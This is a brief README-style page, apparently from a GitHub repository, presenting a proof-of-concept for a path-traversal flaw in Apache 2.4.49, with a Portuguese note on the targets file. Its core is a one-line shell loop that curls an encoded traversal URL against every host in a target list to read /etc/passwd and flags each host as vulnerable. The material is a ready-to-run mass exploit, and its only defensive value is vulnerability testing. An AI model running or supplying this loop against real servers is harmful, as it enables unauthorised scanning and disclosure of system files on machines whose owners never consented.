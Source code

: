 # PoC Apache 2.4.49

```cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done```

targets.txt -> Lista onde conterá todos alvos que serão testados.

PoC image:
<img src="https://imgur.com/FsNVxGL.png">

